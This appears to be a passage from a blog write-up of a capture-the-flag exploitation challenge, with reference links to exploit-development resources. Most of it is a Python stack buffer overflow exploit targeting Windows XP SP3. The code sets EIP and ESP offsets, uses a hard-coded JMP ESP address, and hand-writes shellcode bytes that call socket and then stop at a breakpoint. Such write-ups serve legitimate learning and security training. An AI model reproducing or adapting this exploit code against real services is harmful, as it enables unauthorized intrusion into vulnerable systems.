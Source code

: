 max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux